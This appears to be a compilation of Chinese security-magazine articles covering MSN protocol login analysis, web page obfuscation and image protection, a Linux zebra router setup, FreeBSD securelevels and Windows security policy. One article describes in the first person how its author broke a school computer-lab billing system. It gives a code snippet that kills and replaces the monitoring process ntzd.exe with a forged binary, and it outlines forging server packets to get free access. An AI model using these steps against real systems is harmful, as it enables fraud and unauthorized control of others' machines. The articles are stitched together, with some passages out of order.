这样，当我们看到“CVR 146 0x0804 winnt 5.0 i386 MSNMSGR 7.0.0777 msmsgs cndes2005@hotmail.com”时，就可以知道，现在客户端正发出 OS、语言、MSN Messenger 版本等信息。另外，还有专门的错误命令，属于服务器响应的一种特殊格式命令，它表示客户端的命令不正确或者不能被正确解释。错误命令的格式同一般命令类似，只是命令部分的三个字符需要换成三个数字。

现在，聪明的读者可能会思考：在这些表中，我们看到了 DS、NS、SS 等代表来源和去向的服务器，它们又有什么特殊的意义呢？

## 二、各司其职 MSN 服务器

# 黑客研究院

协议建立在 TCP/IP 之上，客户端使用 MSN 协议登录时，和外部服务器之间有一定的联系。除了文件传输和语音聊天是直接的“点对点”通信之外，其它所有的情形全部通过服务器进行。在逻辑上，一共有三种类型的服务器，各司其职：

1. 派遣服务器（Dispatch Server，简称 DS 服务器）。这是客户端最初连接的服务器，负责给客户端分配合适的通知服务器。域名是 messenger.hotmail.com，标准服务端口是 1863。完成派遣任务后，切断 TCP 连接。
2. 通知服务器（Notification Server，简称 NS 服务器）。通知服务器的目的主要就是保留用户的在线信息，还有其他用户所关心的重要人员的信息。包括登录、改变状态、获取用户列表、修改用户信息、发起聊天、接受呼叫、邮件通知、退出等等。通知服务器同样也提供其他通知服务，如 hotmail 的新邮件提示和创建或者加入会话等。服务端口由派遣服务器指定，通常也是 1863。
3. 接线服务器（Switchboard Server，简称 SS 服务器）。这里保存了各人房间即时会话信息，换句话说，每个 MSN 中的用户均对应连接到一个共享交换板的会话中。因此，这里也可以看作客户端之间聊天使用的中转服务器。每开一个聊天窗口，客户端和服务器就建立一个 TCP 会话。当客户端之间需要进行文件传输或语音聊天时，发送系统消息，建立“点对点”会话通道（可能转为使用 UDP），服务端口通常也是 1863。“点对点”通信使用的端口由客户端自动协商设定，如文件传输通常使用 6891 端口。

整个登录过程可以划分为四个阶段，基本过程如图 2 所示。客户端之间聊天时，需要使用一定的消息标准。MSN Messenger 消息符合 MIME 1.0（多功能网络邮件扩充协议）标准，由消息头与消息体组成，通常使用 UTF-8 编码，消息头中也需要 URL 编码格式，消息体则直接用二进制数据。一个 MSN Messenger 消息的例子如下：

```text
MIME-Version: 1.0\r\n
Content-Type: text/plain; charset=UTF-8\r\n
X-MMS-IM-Format: FN-%E5%AE%8B%E4%BD%93; EF=; CO=0; CS=86; PF=0\r\n
\r\n
cndes\xE4\xBD\xA0\xE5\xA5\xBD\xEF\xBC\x81
```

经简单分析可知，“%E5%AE%8B%E4%BD%93”是“宋体”的 UTF-8 加 URL 编码，而“cndes\xE4\xBD\xA0\xE5\xA5\xBD\xEF\xBC\x81”是“cndes你好！”的 UTF-8 编码。知道了这些知识之后，我们开始考虑：登录过程中的顺序是如何规定的呢？

### 三、登录模式以及登录实例分析

过去的 MSN Messenger 版本（MSNP8 以下），简单地使用 MD5 等 HMAC 算法对用户身份进行认证，其安全性比较差。现在，MSNP10/MSNP11 使用了一种 TWN（Tweener）认证方式，通过 SSL/TLS 连接到 login.passport.com 和 loginnet.passport.com 等服务器，借助于 HTTP 协议输入帐号和密码，认证通过后，才能取得“进场券”。打开数据记录，如图 3 所示，查看数据框中的第二行，我们可以看到命令“USR 147 TWN I cndes2005@hotmail.com”，这其中就使用了 TWN 认证方式，表示声明、传递、鉴别用户 cndes2005@hotmail.com 的身份。

了解了这样一个认证过程，整个过程的登录模式十分清晰，可以详细分析如下：

1. **VER 145 MSNP11 MSNP10 CVR0**：客户端连接到 DS 服务器 TCP 1863 端口，声明支持 MSNP10 和 MSNP11。  
2. **CVR 146 0x0804 winnt 5.0 i386 MSNMSGR 7.0.0777 msmsgs cndes2005@hotmail.com**：客户端与 DS 协商版本并上报系统信息与账户信息。  
3. **USR 147 TWN I cndes2005@hotmail.com**：使用 TWN 认证方式进行身份认证。  
4. **CVR 146 1.0.0000 ...**：客户端初始化用户认证请求，DS 返回 NS 服务器地址。  
5. **XFR 147 NS 207.46.4.22:1863 ...**：DS 断开连接，客户端转向 NS 服务器。  
6. **VER 148 MSNP11 MSNP10 CVR0**  
7. **VER 148 MSNP11 MSNP10 CVR0**  
8. **CVR 149 0x0804 winnt 5.0 i386 MSNMSGR 7.0.0777 msmsgs cndes2005@hotmail.com**  
9. **USR 150 TWN I cndes2005@hotmail.com**  
10. **VER 148 MSNP11 MSNP10 CVR0**  
11. **CVR 149 0x0804 winnt 5.0 i386 MSNMSGR 7.0.0777 msmsgs cndes2005@hotmail.com**  
12. **USR 150 TWN I cndes2005@hotmail.com**：客户端连接 NS 后重复类似协商与认证步骤。  
13. **USR 150 TWN S ...**：进入后续票据/跳转相关流程。  

kpp=1, kv=7, ver=2.1.6000.1, rn=qp5CBKD1, tpf=8f62bda812c23d7b255e3771183d0a4c。客户端向 NS 服务器初始化认证请求，NS 返回一串用于下面 Passport 认证的字符串。

```text
（14）CVR 149 1.0.0000 1.0.0000 1.0.0000 http://msgr.dlservice.microsoft.com http://messenger.msn.com/cn/

（15）USR 150 TWN S lc=1033,id=507,tw=40,fs=1,ru=http%3A%2F%2Fmessenger%2Emsn%2Ecom,ct=1124521006,kpp=1,kv=7,ver=2.1.6000.1,rn=qp5CBKD1,tpf=8f62bda812c23d7b255e3771183d0a4c
```

客户端用户向微软的 Passport 服务进行身份认证，认证成功后客户端将得到一个“凭证”。

```text
（16）USR 151 TWN S t=7r4WmwwzVEcP3KX880SWs6NeTyAbN2YNtf4TZaZlG6nLJXdrc5Q0ENfGtalFIE90rjh!...（长 token 略）
```

客户端将上面获得的“凭证”给 NS 看，也就是检查“进场券”。（17）USR 151 OK cndes2005@hotmail.com……从上面的分析可以看出，真正意义上的身份认证，发生在客户端与通知服务器（NS）之间。

如果认证失败，服务器返回 401 错误：“HTTP/1.1 401 Unauthorized”，这样就无法拿到“进场券”了。登录后，还可以了解在线用户的一些信息。

图4

了解了整个登录过程，对日常生活就有很多启发了。比如，要禁用这种登录方式，可直接禁止对 Messenger/hotmail.com 服务器访问，也可禁止外访 TCP/1863 和 TCP/443；但不建议禁止对 *.Passport.com 的访问，因为登录 Hotmail 邮箱等还需要 Passport 验证服务。

网络中，没有绝对的安全，我们只能利用各种方法使安全提高……我们今天就将这些系统地归到这里一起探讨。

## 一、源文件加密篇

### 1、障眼法

- ① 无用注释、TAB 及换行的运用  
- ② 添加大量的 00H（十六进制的 NULL）

在 HTML 代码或脚本代码中任意添加 00H，在运行时用“查看/源文件”会看到很多杂乱无章的代码。虽然不会影响程序运行，但会增加维护时的困扰。

### 2、JavaScript 加密解密不完全剖析

```html
<Script Language="JavaScript">
var Senc=new ActiveXObject("ScriptEncode");
var code='<SCRIPT LANGUAGE="JavaScript">\n alert("黑客档案")\n</Script>';
var Encode=Senc.EncodeScriptFile("html",code,0);
alert(Encode);
</Script>
```

就会看到一堆让人头痛的“乱码”……如果你天生对乱码有兴趣，那我服你。不过，这并不是很保密，看到这句：`<Script Language="Jscript.Encode">` 便知是调用了解码控件。这样，就可以定义一个 decode() 函数调用 toString() 方法对“乱码”进行解密：

```html
<Script Language="Jscript.Encode">
function decode(){
###$%+%&@$%&#&#$%#$#
}
alert(decode.toString())
</Script>
```

此代码运行后即可看到“乱码”原文……另外，网上很早就有针对 ScriptEncoder 解密的软件……如果手工解密麻烦，也可使用相关工具。

② JavaScript 编码解码函数的应用。`escape()` 和 `unescape()` 函数可以实现编码/解码。很多站点提供的在线加/解密功能就是由此实现。

```html
<Script Language="JavaScript">
var words=escape("******")
alert(words)
</Script>
```

其中括号内内容为待加密文本，运行后得到编码结果；对应解密如下：

```html
<Script Language="JavaScript">
var unwords=unescape(words)
alert(unwords)
</Script>
```

实际上，真正运用 JavaScript 进行加密解密还涉及更多内容，这里仅介绍其原理与简化用法。

## 二、图片的保护

在网页加密中，图片加密也很重要。如果把照片放在个人主页中，通常并不希望被人盗走。实际上只要图片放到网上就存在被下载路径，因此只能提高获取难度。

来看一看获取图片的常见方法：

1. 通过浏览器缓存查找浏览过的图片（Temporary Internet Files）
2. 使用“另存为”功能直接保存图片
3. 使用浏览器“另存为网页”功能保存网页及其资源
4. 查看/编辑网页源代码定位图片 URL 并下载
5. 使用抓图工具或系统打印屏幕等方式截取

针对以上方式，可在页面中用 `<META http-equiv="pragma" content="no-cache">` 限制缓存浏览，并在用户体验与防护强度之间做平衡。

搜索引擎的出现也让图片更容易被检索。要防止被搜索引擎收录，需要了解 Web Robot 的工作机制。

网络搜索系统主要由 Web Robot、索引数据库与查询服务组成。Robot 会沿链接抓取页面并建立索引。

由于 Web Robot 在蜘蛛协议支持下工作，也常称为 Spider、Web crawler、Web Worms 或 Web wanderer。

> Web Robot 一般会定期进行搜索，所以你的网页未必会立刻在索引数据库产生索引。

网站可通过 `robots.txt` 限制 Robot 访问。Robot 抓取前会先检查站点根目录是否存在该文件，并按其中规则执行。

`robots.txt` 通常由 `User-agent:` 与 `Disallow:` 组成。`User-agent:*` 表示对所有 Robot 生效；`Disallow:` 指定不允许访问的 URL 路径。

**注意：** `Disallow:/wwwroot` 与 `Disallow:/wwwroot/` 含义不同；前者可限制目录及子内容，后者主要限制目录默认首页。`Disallow:` 可有多行，空值表示允许抓取。

```txt
User-agent:*
Disallow:/
```

以上配置将禁止该搜索引擎访问网站的任何部分。

```txt
User-agent: baidu spider
Disallow: /hacker/
```

多条限制规则应分别写在不同的 `Disallow:` 记录中，而不能写在一个 `Disallow:` 记录中。

使用 robots.txt 文件限制 Robot 访问的朋友请注意，对于 robots.txt 这个纯文本文件，是可以通过 HTTP 直接下载的。这样，别有用心的人会对您的 robots.txt 文件进行分析，并会试图用默认文件名通过浏览器访问，所以请尽量不要在受限目录下使用如 index.html 之类的默认文件名。

相信现在还有不少囊中羞涩的朋友在使用免费空间吧？相对来说，这些朋友就比较惨了，因为他们没有根目录的管理权限（毕竟是免费的嘛！）对于这些使用免费空间的朋友，可以在需要限制搜索引擎搜索的页面的 `<head></head>` 部分使用 `<META>` 标签禁止搜索引擎的访问。

```html
<META NAME="ROBOTS" CONTENT="none">
<META NAME="ROBOTS" CONTENT="NOARCHIVE">
<META NAME="GOOGLEBOT" CONTENT="NOARCHIVE">
<META HTTP-EQUIV="window-target" CONTENT="_top">
```

对于搜索，我们就说这些了，下面来看看关于右键中的“图片另存为”功能应该怎么防范。

在解决右键“图片另存为”下载图片的问题上，我个人认为不宜屏蔽右键，因为屏蔽右键很容易被破解，同时也会使访客不方便使用右键中的其它功能。

```html
<DIV id="img1" style="height:100%;position:relative;top:0px;visibility:visible;width:100%;z-index:1">
  <center></center>
</DIV>
<DIV id="img2" style="height:100%;position:relative;top:0px;visibility:visible;width:100%;z-index:0">
  <center></center>
</DIV>
```

说明：其中 img1.gif 是一个透明的 GIF 图片，而 img2.gif 则是我们看到的图片。将上述代码放到 HTML 的适当位置，即可使用 CSS 的 Style 层功能有效地避免使用右键的“图片另存为”下载图片。

当访客用右键“图片另存为”功能下载图片时，他将会下载到 img1 层中的那张透明的 GIF 图片。由此我们即达到了“保护图片”的目的。

对于使用浏览器“文件/保存”或“文件/另存为”选项来保存网页，我们可以在网页中加入一段 `<IFRAME>` 代码使网页无法保存（但也只能限制菜鸟，对于大虾还是不管用的）。而对于“查看/源文件”我们可以用前面提到的方法或用专用的加密工具加密源文件。

```asp
Function chkpost()
  dim server_v1,server_v2
  chkpost=false
  server_v1=CStr(Request.ServerVariables("HTTP_REFERER"))
  server_v2=CStr(Request.ServerVariables("SERVER_NAME"))
  if mid(server_v1,8,len(server_v2))<>server_v2 then
    chkpost=false
  else
    chkpost=true
  end if
end function
```

对于通过 Win 操作系统的 PrintScreen 键（拷屏键）的截图防范就比较困难。最后的一招是使用水印。我们可以把要保护的图片标成自己的，窃取者即使下载了也很难利用。

加水印可以使用 Digimarc Corp 在图片上加上可见或不可见的水印，也可以使用“轻松水印”等工具。这样，我们可以在网上跟踪这种水印发现被窃取的图片，从而能够及时保护我们自身的合法权益。

### 三、防垃圾邮件篇

据有关数据表明，现在世界上每四封邮件中就有一封垃圾邮件。做个人主页的朋友一般都会把自己的 E-mail 地址公布到自己的主页中，以便网友和自己及时沟通、交流。但一旦自己的 E-mail 地址被公布，垃圾邮件就会成批涌进。

堆积如山，那么我们应该怎么办呢？有一些 E-mail 地址自动搜索程序可以自动检测到 Web 页面中的 E-mail 地址，很多公司做广告或其它信息宣传者会用这类软件在 Internet 上检索到大量的 E-mail 地址后进行垃圾邮件群发。

这种 E-mail 地址搜索程序一般是根据 E-mail 地址格式中的特殊字符 `@` 来进行搜索的。

1. 我们可以把自己的 E-mail 地址做成图片。这样可以有效防止 E-mail 地址自动搜索程序检索，不过这样对网友发信就不是很方便。
2. 将下面的脚本加在 `<body></body>` 间的合适位置上。
3. 可以把 E-mail 地址转换成 ASCII 码。

```html
<Script Language="JavaScript">
  user="www"
  site="MZQ.NET"
  document.write("<a href='mailto:" + user + "@" + site + "'>")
  document.write(user + "@" + site)
  </a>
</Script>
```

如：abc@mail.com，可以写成一串 ASCII 实体编码。对于 ASCII 码的转换，你可以根据 ASCII 码对照表对照转换，不过那样很麻烦。

至此，本文也该收笔了。在 Web 安全上，有很多东西还需要我们继续研究、共同讨论。希望本文能对您有所帮助。

# 打造专业级中小型路由器

Linux

姜超

大家如果对网络比较有兴趣的话，一定都会知道路由器是什么。说简单一点，路由器就是架构在不同网络之间，用于实现数据传输时路径选择的一种设备。因为现在的 Internet 网络相当庞大，不可能在不同的网络之间建立直接的连接，所以这时就必须用上许多路由器，它们为不同网络之间的通信提供路径选择。被人知道最多的经典路由器说到底是 Cisco 路由器了，不过这个硬件路由器的造价相当高，中小型企业如果想大批购买 Cisco 路由器恐怕负担很重，所以今天我就来教大家如何在 Linux 下做出工作效率非常高而且非常专业的路由器。


### 一、必须明白的几个最基本的概念

- 1. **静态路由表**：由网络管理员事先设置好的固定路由表叫静态路由表。  
- 2. **动态路由表**：路由器根据网络系统的运行情况而自动调整的路由表。  

这两种路由表在 Linux 上都可以实现，不过区别就是当网络系统因为某些情况需要做网络调整，那么动态路由表就可以很方便地随着变化而自动调整。

### 二、Linux 下做路由器的好处

- 1. 价格非常便宜，几乎做成中小型专业服务器不需要钱。  
- 2. 非常专业，几乎不比 Cisco 路由器差。  

### 三、架构环境

Vmware 5.0（虚拟出 3 台机器，1 台做路由，两台做客户端）；操作系统用的是 RHEL4，不过大家可以随便用任何版本的 Linux 都可以；路由软件：zebra-0.93b-1.i386.rpm（Linux 下路由器软件）。

### 四、试验目的

要求两个不同网段的机器，能通过路由器互相访问，达到能互相通信的目的。

### 五、路由器实战

### 1. 前提

首先大家必须知道 Vmware 怎么使用，尤其是 5.0 版本，它采用了动态分配内存方案，这样就可以大大节省内存。另外此版本还多出了一个克隆技术，可以把一个虚拟完的系统克隆出同样的一个系统，而且克隆出来的才占用 100 多 M 空间。

### 2. 网络规划

路由器所在的 Linux 分别有两块网卡：

```text
eth0: 192.168.1.1
eth1: 192.168.10.1
```

客户端 A 所在网段 192.168.1.0/24，IP：192.168.1.2；客户端 B 所在网段 192.168.10.0/24，IP：192.168.10.2。架构示意图如下：

### 3. 配置路由器的网络设置

因为我们的路由器所在 Linux 必须虚拟出两块网卡，分别作为两个不同网段的网关。那么我们先到下面的目录下，会看到有两个文件分别是 ifcfg-eth0 和 ifcfg-eth1。这两个文件分别是两个网卡的配置文件。

```bash
[root@rhel4 ~]# cd /etc/sysconfig/network-scripts/
[root@rhel4 network-scripts]# ls
ifcfg-eth0  ifcfg-eth1  ifcfg-lo  ifup  ifdown ...
```

首先我们先编辑 ifcfg-eth0，让它的地址为 192.168.1.1，详细内容如下：

```bash
[root@rhel4 network-scripts]# vi ifcfg-eth0
DEVICE=eth0
ONBOOT=yes
BOOTPROTO=static
IPADDR=192.168.1.1
NETMASK=255.255.255.0
```

其次编辑 ifcfg-eth1，让它的地址为 192.168.10.1，详细内容如下：

```bash
DEVICE=eth1
ONBOOT=yes
BOOTPROTO=static
IPADDR=192.168.10.1
NETMASK=255.255.255.0
```

现在我们重新启动一下网络服务，好让我们的网络配置生效：

```bash
[root@rhel4 network-scripts]# service network restart
[root@rhel4 network-scripts]# ifconfig
```

```text
eth0 Link encap:Ethernet HWaddr 00:0C:29:AB:CE:D8
inet addr:192.168.1.1 Bcast:192.168.1.255 Mask:255.255.255.0
inet6 addr: fe80::20c:29ff:feab:ced8/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500
...
eth1 Link encap:Ethernet HWaddr 00:0C:29:AB:CE:E2
inet addr:192.168.10.1 Bcast:192.168.10.255 Mask:255.255.255.0
inet6 addr: fe80::20c:29ff:feab:cee2/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500
...
```

vtysh.conf 是配置 zebra 所用的 shell 配置文件，zebra.conf 是 zebra 的主配置文件。为了使 192.168.1.0/24 和 192.168.10.0/24 网段机器能够互相通信，需要进行如下操作：

```bash
[root@rhel4-zebra]# vtysh
% Command incomplete.
（此时可看到此类提示）
Building configuration...
[OK]
rhel4# quit
```

其实大家如果用过 Cisco 路由器的话，就会很容易用 zebra，因为它们的命令几乎都是一样的。其实配置一个简单而又专业的路由是很简单的。下面我们开始配客户端了。

### 4. 配置客户端的网络设置

首先，配置客户端 A，修改 ifcfg-eth0，内容如下：

```bash
DEVICE=eth0
ONBOOT=yes
BOOTPROTO=static
IPADDR=192.168.1.2
NETMASK=255.255.255.0
GATEWAY=192.168.1.1
```

这里要注意的是，一定要把网关设置成我们刚才路由器的 192.168.1.1 网关。`[root@rhel4 my]# service network restart`。重新启动网络服务后，客户端 A 的配置就算完成了。

其次，配置客户端 B。配置 B 的方法其实和上面一样，不过 IP 要有所区别。客户端 B 的 IP 设置成 192.168.10.2，网关改成 192.168.10.1。除了 IP 不同，其他的操作都和 A 一样。

最终测试，在 A 上执行如下命令：

```bash
[root@rhel4 /]# ping 192.168.1.1
... 3 packets transmitted, 3 received, 0% packet loss ...
[root@rhel4 /]# ping 192.168.10.1
... 3 packets transmitted, 3 received, 0% packet loss ...
[root@rhel4 /]# ping 192.168.10.2
... 3 packets transmitted, 3 received, 0% packet loss ...
```

在 B 上也同样执行上面的命令，不过最后一个命令要改成 192.168.1.2。如果两台机器 Ping 以上三个地址都能 ping 通，那么我们的 zebra 路由器就算设置成功了。

如果以上操作都正确的话，那么下面我们就来安装和配置路由器了。

首先我们需要下载一个 zebra-0.93b-1.i386.rpm，它是在 Linux 下用的路由器程序。在 Red Hat 9.0 的光盘里有这个 rpm 包，如果大家用的是别的版本 Linux，可以到 http://www.findrpm.com 里进行下载。

```bash
[root@rhel4 my]# ls
zebra-0.93b-1.i386.rpm
[root@rhel4 my]# rpm -ivh zebra-0.93b-1.i386.rpm
warning: zebra-0.93b-1.i386.rpm: V3 DSA signature: NOKEY
...
[100%]
```

好了，我们的 zebra 成功地安装完了，下面我们再检查一下 zebra 是否真的安装成功：

```bash
[root@rhel4 my]# rpm -aq | grep zebra
zebra-0.93b-1
```

嗯，出现上面的提示说明已经安装成功了，现在来启动 zebra：

```bash
[root@rhel4 my]# service zebra start
启动 zebra：成功
[root@rhel4 my]# service ripd start
启动 ripd：成功
```

ripd 进程主要是用来使用 zebra 配置支持 RIP 路由协议的，所以我们不但要启动 zebra，还要同时启动 ripd。如果大家想在下次开机后自动运行路由器，那么执行如下命令：

```bash
[root@rhel4 my]# chkconfig zebra on
[root@rhel4 my]# chkconfig ripd on
```

安装和启动我们就说到这里，下面来看一下 zebra 的配置文件。

```bash
[root@rhel4 zebra]# cd /etc/zebra/
[root@rhel4 zebra]# ls
ripd.conf  vtysh.conf  zebra.conf
```

以上所有操作都是最基本最简单的路由器设置，本文就是为了向大家演示 zebra 强大的功能。如果大家需要更复杂的网络配置，完全可以用 zebra 来实现。还有什么疑问的话，可以在 X 论坛上来和我一起探讨。

（本文涉及的相关工具：zebra-0.93b-1.i386.rpm、两网段机器互相通信的文件代码，光盘中有收录。）

# 机房管理系统突破实战

经过整整七天的不懈努力，我终于成功地达到了自己设定的目标。当我按下键盘写这篇文章的时候，内心依然非常激动，这七天我付出很多也得到了很多。有句话让我感受颇深：“一分耕耘，一分收获”——谨以此而献给所有正朝自己目标不懈努力的人。这次的目标是突破学校的机房管理系统，和网吧的管理系统差不多，一个 Client 端和一个 Server 端，我们用一种完全不同的方式来完成整个行程（有点像苦行僧的旅行 ^_^）。先简单介绍一下大致的过程：


刘奇

- 1. 通过逆向分析 Client 的流程，以及可能存在的缺陷；  
- 2. 分析了 Client 和 Server 的通讯数据报；  
- 3. 采用伪造 ID 欺骗的方式突破了所有限制。  

整个过程比较复杂（相对于我这样的菜鸟而言），为了照顾和我差不多的、和比我菜的菜鸟，特提出部分建议：

- 1. 本文逆向分析 Client 伪流程所使用的工具是 C32Asm、Ollydbg，并查看对应帮助文件或者相关软件的文档；  
- 2. 分析数据包使用的工具是 commview，简单说你会使用该工具就行，这很“实用”，熟悉以后会事半功倍；  
- 3. 伪造数据包欺骗相对比较复杂。初学者不熟悉请先看好教程与相关资料，本文不再展开非常详细的操作过程。  

是开始我们旅行的时候了，请带上工具包开始吧。由于发文时文章所提及的各个漏洞尚未有完善的解决方案，所以我还不能公布该机房管理系统的具体名称，请再次见谅。首先当然是用自己的学号和密码登录系统，进行常规分析。开始分析之前，我写了个程序保护自己……关键思想是通过：`netstat -an > log.txt` 来得到当前的所有连接记录，然后程序简单地从该记录中查找指定的 IP 即可。

```cpp
/* 检测是否正被监控，如果被监控返回 true，否则返回 false */
bool Alarmer::BeMonitored(){
    ifstream log_file("log.txt");
    if (!log_file){
        cerr << endl << "Open file faild!!!" << endl;
    }
    while (log_file.good()){
        // 读取记录并比对 IP
    }
}
```

```cpp
log_file.close();
string::size_type pos = 0;
if ((pos = log_.find(target_ip, pos)) != string::npos){
    log_.resize(0);
    return true;   // 被监视
}else{
    log_.resize(0);
    return false;
}

// 报警代码就更简单了
void Alarmer::Alarm(){
    MessageBox(NULL, "I am looking for you!!!", "Hi", NULL);
}
```

为节省篇幅，详细代码请看光盘。常规分析开始：

1. 运行 `netstat -an`，找到一个可疑进程 ntzd.exe，该进程在 5841 端口监听，采用 UDP 协议，Foreign Address 是 `*.*`。搜索 ntzd.exe 后居然没有找到，原因在逆向分析阶段会提到。随后找了个工具 spy4win，找到该进程对应的文件在 `c:\windows\system32\ntzd.exe`，先复制到 d 盘。  
2. 开始我们的逆向分析：下机部分代码。CMD 是一个字符串，CMD 后面紧接着的如果是“下机”，那么会立刻弹出登录界面，也就是你被下机了。  

```asm
.00480F3D: MOV EDX,481A80   ; -> CMD
.00480F42: CALL 00403F38
.00480F47: JNZ 00481A04
.00480F4D: MOV EAX,DWORD PTR [EBP-1C]
.00480F50: MOV EDX,481A8C   ; -> "下机"
.00480F55: CALL 00403F38
.00480F5A: JNZ 00481010
```

下机登录之后，Server 会发送数据包提示 Client 你使用的金额和剩余的金额，此时 Client 的响应如下：

```asm
.00480F96: MOV ECX,1
.00480F9B: MOV EDX,481A9C   ; -> 提示信息
.00480FA0: MOV EAX,481AB0   ; -> 下机登记成功
.00480FA6: CALL 00479828
```

最关键的代码（能否免费上机在此一举），如果对应的数据是通过，那么恭喜，你可以上机了。通过构造一个特殊的数据包我们就可以免费上机了！（或者如果你愿意，伪造一个 Client 也是可以的。）


其它的控制功能，如锁定屏幕、检测密码的正确性等，我不想列出来了。

先来回答为什么前面搜索 ntzd.exe 会找不到……该文件被加了系统、隐藏和只读属性，前面的搜索自然就找不到了。

3. 开始分析数据包，抓到的部分数据包如下：上机验证部分数据包，如图 1 所示的是 Client 提交的要求上机的数据包。  

十六进制数据包（图 1）  
图 1

其中对我们有用的数据如下：`32 30 30 32 32 33 33 38` 是学号 20022338 的 16 进制表示，紧接着的是密码的 16 进制表示……

Server 返回的数据包如图 2。  

十六进制数据包（图 2）  
图 2

不用我多解释了吧……下机过程的数据包我就不给出了，差不多。

当然还有很多的数据包我没有提出来，只写出了我觉得最关键、最有用的东西……

- 1. 准备一张 Linux live cd（可在光盘上运行的操作系统），开机按 F12，选择启动盘，放入 Linux 光盘，回车启动进入 Linux。  
- 2. 我想详细介绍一下这种方法……先分析 ntzd.exe 注入的 dll 文件名……  
- 3. 伪造 Server 发送给 Client 的验证通过数据包……  

反汇编/调试窗口（图 3）  
图 3

突破方法：先写个程序等待 15 秒……用 pskill 杀掉 ntzd.exe，重命名并复制到 system32 下……

……接着 kill explorer.exe，再运行 explorer.exe 就可以了，然后下机登记，静静等待 15 秒后就可以免费上机了。注意上面的这些操作全部是由自己编写的程序来完成的，关键代码如下：

```c
Sleep(15000);
System("pskill ntzd.exe");
System("ren c:\\windows\\system32\\ntzd.exe ntzd.old");
System("copy myntzd.exe c:\\windows\\system32\\ntzd.exe");
System("pskill explorer.exe");
System("explorer.exe");
```

注意：如果没有 pskill，可以使用系统自带命令，如 `taskkill /f /im explorer.exe`……

由此总结出杀 dll 木马原理如下：dll 木马大都通过 CreateRemoteThread 注入到某个进程中……如果此时杀掉宿主进程，那么 dll 木马就悬挂了，找到并删除即可。

具体操作以 explorer.exe 为例：先查模块并记录，kill 掉宿主进程后重启 explorer，再查模块，对比两次记录……

3. 伪造 Server 发给 Client 的验证通过数据包。由于需要构造自己的数据包，所以要使用原始套接字编程……这种方法最爽，可以让任何人免费上机，而且可以控制任何一台电脑……

如果读者觉得本文尚有部分没有提及，我想大概就是 sysgl.dll 和进程重生保护功能实现的分析……有什么问题请在论坛交流。

> （文本涉及的相关代码，光盘中有收录。）

# 利用 FreeBSD 内核安全级别

**帮你扼杀安全**

美超

系统的安全可以说在服务器上体现得很明显。一个服务是否安全将会决定一个企业或学校服务行业的存亡。这次来介绍一下 FreeBSD 系统跟 Linux 系统的比较，它与 Linux 相比有哪些明显的安全措施。

### 一、Linux 中的方案

Linux 下有 chattr 命令，可以把文件设置成只读状态，这样文件就不能被修改和删除。下面通过例子说明。

```bash
[root@taili tmp]# touch aa
[root@taili tmp]# chattr +i aa
[root@taili tmp]# lsattr aa
----i-------- aa
[root@taili tmp]# echo "abcd" >> aa
-bash: aa: Permission denied
[root@taili tmp]# rm aa
rm: remove write-protected regular empty file `aa`? y
rm: cannot remove `aa`: Operation not permitted
```

即使把 /bin、/sbin 下可执行文件设置成这样，在 root 权限下仍可通过去掉属性后删除文件。

```bash
[root@taili tmp]# chattr -i aa
[root@taili tmp]# lsattr aa
```

```bash
[root@tmp]# chflags schg aa
[root@tmp]# ls -o aa
-rw-r--r--  1 root wheel schg ... aa
[root@tmp]# echo "abcd" >> aa
-bash: aa: Operation not permitted
[root@tmp]# rm aa
rm: aa: Operation not permitted
```

结果表明，普通方式很难删除该文件。对于同样技术，FreeBSD 启用了内核安全级别机制来进行更高层保护。

### 二、FreeBSD 中的方案

FreeBSD 中虽无 Linux 的 chattr，但有类似命令 chflags。下面在 FreeBSD 下进行同样实验。

```bash
root@tmp# uname
FreeBSD
root@tmp# touch aa
root@tmp# chflags schg aa
root@tmp# ls -lo aa
... schg ... aa
root@tmp# echo "abcd" >> aa
-bash: aa: Operation not permitted
root@tmp# rm aa
rm: aa: Operation not permitted
```

```bash
root@tmp# rm aa
rm: aa: Operation not permitted
root@tmp# chflags noschg aa
chflags: aa: Operation not permitted
```

```bash
root@tmp# ll -o aa
... -rw-r--r-- ...
### 取消 schg 前加 no 之后可恢复删除
root@tmp# rm aa
root@tmp# ls aa
ls: aa: No such file or directory
```

这两个操作的区别在于系统安全级别限制。若黑客登录 FreeBSD 并取得 root，也很难在高安全级别下破坏关键文件。

### 内核级别说明

| 安全级别 | 说明 |
|---|---|
| -1 | 系统默认级别，无内核保护作用。 |
| 0 | 进入多用户模式时会自动变为 1。 |
| 1 | 不能通过 kldload/kldunload 装载或卸载内核模块；应用程序不能通过 /dev/mem 或 /dev/kmem 写入；不能格式化磁盘；不能启动 X-window；不能修改 chflags 受保护文件属性。 |
| 2 | 不能在短时间内发起多次装载（防 DoS）。 |
| 3 | 在 2 级别上不允许修改 IPFW 防火墙规则。 |

通过这 5 个级别可知，级别越高安全性越强。当系统处于 1 或更高时，用户将不能用 chflags 修改受保护文件（root 也不例外）。

> **注意：**用 `sysctl` 命令只能把低安全级别升为高安全级别，不能把高安全级别降为低安全级别。这样可防止黑客降低当前级别以绕过文件属性限制或实施破坏行为。

# 安全第一

Windows XP 系统自带的“本地安全策略”是一个很不错的系统安全管理工具，利用好它可以使我们的系统更安全。首先，我们就来说一下如何启动“本地安全策略”。单击“控制面板→管理工具→本地安全策略”后，会进入“本地安全策略”的主界面。在此可通过菜单栏上的命令设置各种安全策略，并可选择查看方式、导出列表及导入策略等操作。接下来我们来探讨一下“本地安全策略”的妙用。

### 一、加固系统账户

- 1. 禁止枚举账号

我们知道，某些具有黑客行为的蠕虫病毒，可以通过扫描 Windows 2000/XP 系统的指定端口，然后通过共享会话猜测管理员系统口令。因此，我们需要通过在“本地安全策略”中设置禁止枚举账号，从而抵御此类入侵行为。操作步骤如下：在“本地安全策略”左侧列表的“安全设置”目录树中，逐层展开“本地策略→安全选项”。查看右侧的相关策略列表，在此找到“网络访问：不允许 SAM 账户和共享的匿名枚举”（如图1）。用鼠标右键单击，在弹出菜单中选择“属性”，而后会弹出一个对话框，在此激活“已启用”选项，最后点击“应用”按钮使设置生效。

在“本地策略→安全选项”分支中，找到“账户：来宾账户状态”策略，点击右键，在弹出菜单中选择“属性”，而后在弹出的属性对话框中设置其状态为“已停用”，最后“确定”退出。下面，我们再查看“账户：重命名系统管理员账户”这项策略，调出其属性对话框，在其中的文本框中可自定义账户名称（如图2）。

- 2. 账户管理

为了防止入侵者利用漏洞登录机器，我们要在此设置重命名系统管理员账户名称及禁用来宾账户。

### 二、指派本地用户权利

